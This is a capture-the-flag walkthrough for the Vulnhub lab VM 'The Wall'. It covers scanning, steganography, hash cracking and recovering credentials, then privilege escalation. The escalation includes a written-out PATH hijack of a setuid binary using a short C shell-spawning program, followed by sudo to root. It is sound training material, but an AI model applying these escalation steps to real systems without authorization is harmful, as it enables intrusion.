



This is a writeup for [The Wall](https://www.vulnhub.com/entry/the-wall-1,130/) created by @Xerebus, hosted on Vulnhub, for the full experience you should listen to Pink Floyd while solving it. (I recommend Pulse)

### Receiving messages

Nmapping this VM right away gives no open ports, but if we pay attention to what it says in the description:

>```
>DHCP (Automatically assigned)
>IMPORTANT: The vm IS working as intended if you receive a successful DHCP lease as seen in the boot up sequence.
>'thewall' vm must be on the same subnet as the attacking machine AND the attacking machine should ideally be a vm on the same network as 'thewall'. If you choose to use a physical box as the attacking machine, 'thewall' must exist on the same network via a bridged interface.
>Note, there is more to this than port scanning... 
>```

Port scanning right away may not be the best idea, lets see if the VM is reaching out to us instead?

Firing up wireshark:



So about every 10 seconds the VM tries to reach us on port 1337, lets see what it sends.

>```
>[root:~/thewall]# nc -l -v -p 1337         
>listening on [any] 1337 ...
>192.168.0.109: inverse host lookup failed: Unknown host
>connect to [192.168.0.111] from (UNKNOWN) [192.168.0.109] 30713
>
>                       .u!"`
>                   .x*"`
>               ..+"NP
>            .z""   ?
>          M#`      9     ,     ,
>                   9 M  d! ,8P'
>                   R X.:x' R'  ,
>                   F F' M  R.d'
>                   d P  @  E`  ,
>      ss           P  '  P  N.d'
>       x         ''        '
>       X               x             .
>       9     .f       !         .    $b
>       4;    $k      /         dH    $f
>      'X   ;$$     z  .       MR   :$
>        R   M$$,   :  d9b      M'   tM
>        M:  #'$L  ;' M `8      X    MR
>        `$;t' $F  # X ,oR      t    Q;
>         $$@  R$ H :RP' $b     X    @'
>         9$E  @Bd' $'   ?X     ;    W
>         `M'  `$M d$    `E    ;.o* :R   ..
>          `    '  "'     '    @'   '$o*"'   
>   
>              The Wall by @xerubus
>          -= Welcome to the Machine =-
>
>If you should go skating on the thin ice of modern life, dragging behind you the silent reproach of a million tear-stained eyes, don't be surprised when a crack in the ice appears under your feet. - Pink Floyd, The Thin Ice
>```

Lets see if anything changed:

>```
>[root:~/thewall]# nmap -sS -T5 192.168.0.109 -p- 
>
>Starting Nmap 7.00 ( https://nmap.org ) at 2015-12-01 12:55 CET
>Nmap scan report for 192.168.0.109
>Host is up, received arp-response (0.0010s latency).
>Not shown: 65534 filtered ports
>Reason: 65534 no-responses
>PORT   STATE SERVICE REASON
>80/tcp open  http    syn-ack ttl 64
>MAC Address: 08:00:27:D3:4D:0D (Oracle VirtualBox virtual NIC)
>
>Nmap done: 1 IP address (1 host up) scanned in 54.40 seconds
>```

### Site

We can now visit the website on port 80:

>```
>[root:~/thewall]# curl -i 192.168.0.109
>HTTP/1.1 200 OK
>Connection: keep-alive
>Content-Length: 539
>Content-Type: text/html
>Date: Tue, 01 Dec 2015 12:58:58 GMT
>Last-Modified: Sat, 24 Oct 2015 15:20:23 GMT
>Server: OpenBSD httpd
>
><html>
><body bgcolor="#000000">
><center></center>
></body>
></html>
>
>
><!--If you want to find out what's behind these cold eyes, you'll just have to claw your way through this disguise. - Pink Floyd, The Wall
>
>Did you know? The Publius Enigma is a mystery surrounding the Division Bell album.  Publius promised an unspecified reward for solving the 
>riddle, and further claimed that there was an enigma hidden within the artwork.
>
>737465673d3333313135373330646262623337306663626539373230666536333265633035-->
>```

All those bytes are within ASCII range:

>```
>[root:~/thewall]# xxd -r -p <<< 737465673d3333313135373330646262623337306663626539373230666536333265633035
>steg=33115730dbbb370fcbe9720fe632ec05#       
```

Typing 33115730dbbb370fcbe9720fe632ec05 in your favorite search engine should return the plain text for this md5: "divisionbell"

The little "Did you know?" is sort of hinting to something being hidden in artwork, "steg=divisionbell" further confirms this.

After some trial-and-error (There is actually a stego program called 'steg') steghide was found to work:

>```
>[root:~/thewall]# wget 192.168.0.109/pink_floyd.jpg -q
>[root:~/thewall]# steghide extract -p divisionbell -sf ~/thewall/pink_floyd.jpg 
>wrote extracted data to "pink_floyd_syd.txt".
>[root:~/thewall]# cat pink_floyd_syd.txt 
>Hey Syd,
>
>I hear you're full of dust and guitars? 
>
>If you want to See Emily Play, just use this key: U3lkQmFycmV0dA==|f831605ae34c2399d1e5bb3a4ab245d0
>
>Roger
>
>Did you know? In 1965, The Pink Floyd Sound changed their name to Pink Floyd.  The name was inspired
>by Pink Anderson and Floyd Council, two blues muscians on the Piedmont Blues record Syd Barret had in 
>his collection.
>```

>```
>[root:~/thewall]# base64 -d <<< U3lkQmFycmV0dA==
>SydBarrett# 
>```

To crack the hash:

>```
>[root:~/thewall]# findmyhash md5 -h f831605ae34c2399d1e5bb3a4ab245d0
>Cracking hash: f831605ae34c2399d1e5bb3a4ab245d0
><snip>
>***** HASH CRACKED!! *****
>The original string is: pinkfloydrocks
>The following hashes were cracked:
>----------------------------------
>f831605ae34c2399d1e5bb3a4ab245d0 -> pinkfloydrocks
>```

### Syd

Now that we have a username:password combination we need to find a place to enter this.

After a bit:

>```
>[root:~/thewall]# nmap -sS -T5 192.168.0.109 -p-
>Starting Nmap 7.00 ( https://nmap.org ) at 2015-12-01 13:23 CET
>Nmap scan report for 192.168.0.109
>Host is up, received arp-response (0.0015s latency).
>Not shown: 65533 filtered ports
>Reason: 65533 no-responses
>PORT     STATE SERVICE REASON
>80/tcp   open  http    syn-ack ttl 64
>1965/tcp open  ssh 	syn-ack ttl 64
>MAC Address: 08:00:27:D3:4D:0D (Oracle VirtualBox virtual NIC)
>
>Nmap done: 1 IP address (1 host up) scanned in 54.47 seconds
>```

Port 1965 seems to open after downloading the image?

Lets try to ssh in with our found credentials:

>```
>[root:~/thewall]# ssh SydBarrett@192.168.0.109 -p 1965
>SydBarrett@192.168.0.109's password: 
>Could not chdir to home directory /home/SydBarrett: No such file or directory
>This service allows sftp connections only.
>Connection to 192.168.0.109 closed.
>```

Well, at least we get a clear error message:

>```
>[root:~/thewall]# sftp -P 1965 SydBarrett@192.168.0.109
>SydBarrett@192.168.0.109's password: 
>Connected to 192.168.0.109.
>sftp> ls -al
>drwxr-x---    3 0        1000          512 Oct 24 20:16 .
>drwxr-x---    3 0        1000          512 Oct 24 20:16 ..
>drwxr-xr-x    3 0        1000          512 Oct 24 18:17 .mail
>-rw-r--r--    1 0        1000         1912 Oct 25 22:56 bio.txt
>-rw-r--r--    1 0        1000       868967 Oct 24 16:17 syd_barrett_profile_pic.jpg
>sftp> cd .mail/
>sftp> ls -al
>drwxr-xr-x    3 0        1000          512 Oct 24 18:17 .
>drwxr-x---    3 0        1000          512 Oct 24 20:16 ..
>drwxr-xr-x    2 0        1000          512 Nov 11 10:25 .stash
>-rw-r--r--    1 0        1000          309 Oct 24 18:18 sent-items
>sftp> cd .stash/
>sftp> ls -al 
>drwxr-xr-x    2 0        1000          512 Nov 11 10:25 .
>drwxr-xr-x    3 0        1000          512 Oct 24 18:17 ..
>-rw-r--r--    1 0        1000     48884479 Aug  7 14:33 eclipsed_by_the_moon
>```

Lets see what these files are about.

>```
>sftp> !cat sent-items
>Date: Sun, 24 Oct 1965 18:45:21 +0200
>From: Syd Barrett <syd@pink.floyd>
>Reply-To: Syd Barret <syd@pink.floyd>
>To: Roger Waters <roger@pink.floyd>
>Subject: Had to hide the stash
>
>Roger... I had to hide the stash. 
>
>Usual deal.. just use the scalpel when you find it.
>
>Ok, sorry for that.
>
>Rock on man
>
>"Syd"
>```

Some hint towards using the 'scalpel' tool (a forensics tool) to extract hidden files, probably from the 'eclipsed_by_the_moon' file.

If there are files hidden within files I usually turn to binwalk :

>```
>[root:~/thewall]# file eclipsed_by_the_moon 
>eclipsed_by_the_moon: gzip compressed data, last modified: Wed Nov 11 01:15:47 2015, from Unix
>[root:~/thewall]# binwalk --dd='.*' -Meq eclipsed_by_the_moon
>```

It extracts a bunch of files but most importantly an image:


Which gives us the password for RogerWaters: hello_is_there_anybody_in_there

### Roger

Having got the password for RogerWaters we can ssh in as this user.

Some enumeration reveals:
>```
>3280   16 -rws--s--x    1 NickMason NickMason     7291 Aug  8 00:33 /usr/local/bin/brick
>```

Running it, it asks us a trivia question and reward us with a shell:

>```
>$ /usr/local/bin/brick                                                                                                                     
>
>What have we here, laddie?
>Mysterious scribbings?
>A secret code?
>Oh, poems, no less!
>Poems everybody!
>
>Who is the only band member to be featured on every Pink Floyd album? : Nick Mason
>/bin/sh: Cannot determine current working directory
>$ id
>uid=1001(NickMason) gid=1001(NickMason) groups=1002(RogerWaters)
>```

### Nick

As Nick there are no suid binaries available, but checking his home directory reveals something interesting:

>```
>$ cat bio.txt                                                                                                                              
><snip>
>I wander if anyone is reading these bio's?  Richard Wright.. if you're reading this, I'm not really going to cut you into little pieces.  I was just having a joke.  Anyhow, I have now added you to thewall.  You're username is obvious. You'll find your password in my profile pic.
>```

Lets look at the profile pic:

>```
>$ file nick_mason_profile_pic.jpg                                                                                                          
>nick_mason_profile_pic.jpg: Ogg data, Vorbis audio, stereo, 44100 Hz, created by: Xiph.Org libVorbis I
>```

If you listen to this files you can hear the beeps of Morse-code pretty clearly, to transcribe it we can use Sonic-Visualiser (press Shift-M for the melodic range spectrum, the Morse is around 995 "Bin Frequency (?)" and looks as follows:



From this is is pretty easy to transcribe the Morse:

>```
>.-.  .. -.-. .... .- .-. -.. .-- .-. .. -. .... - .---- ----. ....- ...-- ..-. .- .-. ..-. .. ... .-
>```

Decodes to:

>```
>RICHARDWRINHT1943FARFISA
>```

Eh, close enough.

### Richard

We can now su to RichardWright with password 1943farfisa.

There is again a suid binary:

>```
>3281   16 -rwsr-s---    1 DavidGilmour RichardWright     7524 Oct 25 07:58 /usr/local/bin/shineon
>```

This binary can run a few programs as user DavidGilmour, it uses system("program") to do this. Fortunately for us it launches the "mail" program in an unsafe way (system("mail")), meaning that we can change the PATH environment variable to execute an arbitrary binary as DavidGilmour.

>```
>$ vi a.c           
>$ gcc -o mail a.c  
>$ export PATH=/tmp:$PATH
>$ cat a.c                                                                                                                                  
>int main(void){
>        setresuid(1004, 1004, 1004);
>        system("/bin/ksh");
>}       
>$ /usr/local/bin/shineon                                                                                                                   
>Menu
>
>1. Calendar
>2. Who
>3. Check Internet
>4. Check Mail
>5. Exit
>4
>Keep Talking- The Division Bell
>$ id
>uid=1004(DavidGilmour) gid=1003(RichardWright) groups=1003(RichardWright)
>```

### David

Again we find some hints in the home directory.

>```
>$ ls -l /home/DavidGilmour 
>total 368
>-rw-------  1 DavidGilmour  DavidGilmour     384 Aug  8 00:33 anotherbrick.txt
>-rw-r--r--  1 DavidGilmour  DavidGilmour    1022 Oct 26 08:59 bio.txt
>-rwxr-----  1 DavidGilmour  DavidGilmour  182073 Oct 28 08:50 david_gilmour_profile_pic.jpg
>-rw-r--r--  1 DavidGilmour  DavidGilmour     785 Oct 27 01:43 mbox
>```

Lets see:

>```
>$ cat anotherbrick.txt                                                                                                                     
># Come on you raver, you seer of visions, come on you painter, you piper, you prisoner, and shine. - Pink Floyd, Shine On You Crazy Diamond
>
>New website for review:    pinkfloyd1965newblogsite50yearscelebration-temp/index.php
>
># You have to be trusted by the people you lie to. So that when they turn their backs on you, you'll get the chance to put the knife in. - Pink Floyd, Dogs 
>```

We get a new url on which there is a site.

>```
>[root:~/thewall]# curl 192.168.0.109/pinkfloyd1965newblogsite50yearscelebration-temp/index.php | html2text 
>[img/pinkfloydlogo.jpg]
>****** 50 Years of Pink Floyd ******
>Get Comfortably Numb and Have a Cigar.
>    * Home
>    * About
>    * Albums
>    * Contact
>****** Home Page ******
>    [/pinkfloyd1965newblogsite50yearscelebration-temp/img/homepageimg.jpg]
>The lunatic is in my head. - Pink Floyd, Brain Damage
>©2015-= The Wall - Boot2Root by @xerubus=-
>```

After some looking around we load the image in Stegsolve:



We see:

/welcometothemachine and 50696e6b466c6f796435305965617273

Which decodes:

>```
>[root:~/thewall]# xxd -p -r <<< 50696e6b466c6f796435305965617273
>PinkFloyd50Years#                                                                                                             
>```

We have a problem though, we cant access the directory /welcometothemachine

>```
>[root:~/thewall]# curl -I 192.168.0.109/welcometothemachine/
>HTTP/1.0 403 Forbidden
>Date: Tue, 01 Dec 2015 15:20:56 GMT
>Server: OpenBSD httpd
>Connection: close
>Content-Type: text/html
>Content-Length: 358
>```

Nor can we locally:
>```
>drwxr-x---  4 www   welcometothemachine  512 Nov 27 01:47 htdocs
>```

The problem is that even tough the user we are is in the group 'welcometothemachine' OpenBSD does not come with the newgrp command to switch groups, the only way is to actually log in as DavidGilmour.

After _a little bit_ of searching and brute forcing:

>```
>$ strings david_gilmour_profile_pic.jpg | tail -1 
>who_are_you_and_who_am_i
>```


### David for Real

We can use DavidGilmour:who_are_you_and_who_am_i to log in and get the correct groups.

>```
>$ su DavidGilmour
>Password:
>$ id
>uid=1004(DavidGilmour) gid=1004(DavidGilmour) groups=1004(DavidGilmour), 1(daemon), 67(www), 1005(welcometothemachine
>/var/www/htdocs/welcometothemachine/PinkFloyd
>```

Now we have access to the htdocs folder, where we find a suid root file!

>```
>$ ls -l /var/www/htdocs/welcometothemachine/                                                               
>-rws--s---  1 root  welcometothemachine  7513 Nov 27 01:47 PinkFloyd
>```

Seems like we are close.

>```
>$ /var/www/htdocs/welcometothemachine/PinkFloyd  
>Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd, Empty Spaces
>Answer: PinkFloyd50Years
>
>Denied....
>If I had my way, I'd have all of ya shot. - Pink Floyd, In The Flesh
>```

But this is the only thing we haven't used yet...

Maybe like this:

>```
>$ /var/www/htdocs/welcometothemachine/PinkFloyd                                              
>Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd, Empty Spaces
>Answer: 50696e6b466c6f796435305965617273
>
>Fearlessly the idiot faced the crowd smiling. - Pink Floyd, Fearless
>
>Congratulations... permission has been granted.
>You can now set your controls to the heart of the sun!
>```

Oh?

>```
>$ sudo -l
>Password: 
>Matching Defaults entries for DavidGilmour on thewall:
>    env_keep+="FTPMODE PKG_CACHE PKG_PATH SM_PATH SSH_AUTH_SOCK"
>
>User DavidGilmour may run the following commands on thewall:
>    (ALL) SETENV: ALL
>```

w00t! w00t!

>```
>$ sudo su
># id
>uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
>```

### root

Grab that flag!

>```
># cat /root/flag.txt                                                                                       
>
>"The band is fantastic, that is really what I think. Oh, by the way, which one is Pink? - Pink Floyd, Have A Cigar"
>
>                   Congratulations on rooting thewall!
>
>   ___________________________________________________________________
>  | |       |       |       |       |       |       |       |       | |
>  |_|_______|_______|______ '__  ___|_______|_______|_______|_______|_|
>  |     |       |       |   |  )      /         |       |       |     |
>  |_____|_______|_______|__ |,' , .  | | _ , ___|_______|_______|_____|
>  | |       |       |      ,|   | |\ | | ,' |       |       |       | |
>  |_|_______|_______|____ ' | _ | | \| |'\ _|_______|_______|_______|_|
>  |     |       |       |   \  _' '  ` |  \     |       |       |     |
>  |_____|_______|_______|_  ,-'_ _____ | _______|_______|_______|_____|
>  | |       |       |   ,-'|  _     |       |       |       |       | |
>  |_|_______|_______|__  ,-|-' |  ,-. \ /_.--. _____|_______|_______|_|
>  |     |       |          |   |  | |  V  |   ) |       |       |     |
>  |_____|_______|_______|_ | _ |-'`-'  |  | ,' _|_______|_______|_____|
>  | |       |       |      |        |  '  ;'        |       |       | |
>  |_|_______|_______|______"|_____  _,- o'__|_______|_______|_______|_|
>  |     |       |       |       _,-'    .       |       |       |     |
>  |_____|_______|_______|_ _,--'\      _,-'_____|_______|_______|_____|
>  | |       |       |     '     ||_||-' _   |       |       |       | |
>  |_|_______|_______|_______|__ || ||,-'  __|_______|_______|_______|_|
>  |     |       |       |       |  ||_,-'       |       |       |     |
>  |_____|_______|______.|_______.__  ___|_______|_______|_______|_____|
>  | |       |       |   \    |     /        |       |       |       | |
>  |_|_______|_______|___ \ __|___ /,  _ |   | ______|_______|_______|_|
>  |     |       |       | \      // \   |   |   |       |       |     |
>  |_____|_______|_______|_ \ /\ //--'\  |   | __|_______|_______|_____|
>  | |       |       |       '  V/    |  |-' |__,    |       |       | |
>  |_|_______|_______|_______|_______ _______'_______|_______|_______|_|
>  |     |       |       |       |       |       |       |       |     |
>  |_____|_______|_______|_______|_______|_______|_______|_______|_____|
>  |_________|_______|_______|_______|_______|_______|_______|_______|_|
>
>                  Celebrating 50 years of Pink Floyd!
>             Syd Barrett (RIP), Nick Mason, Roger Waters,
>               Richard Wright (RIP), and David Gilmour.
>
>** Shoutouts **
>+ @vulnhub for making it all possible
>+ @rastamouse @thecolonial - "the test bunnies"
>
>-=========================================-
>-  xerubus (@xerubus - www.mogozobo.com)  -
>-=========================================-
>```

Thank you Xerebus for the challenge :), if you have any questions about the writeup hit me up on #vulnhub@freenode or @__dqi on twitter!


>_On the day the wall came down_

>_They threw the locks onto the ground_

>_And with glasses as high we raised a cry for freedom had arrived_
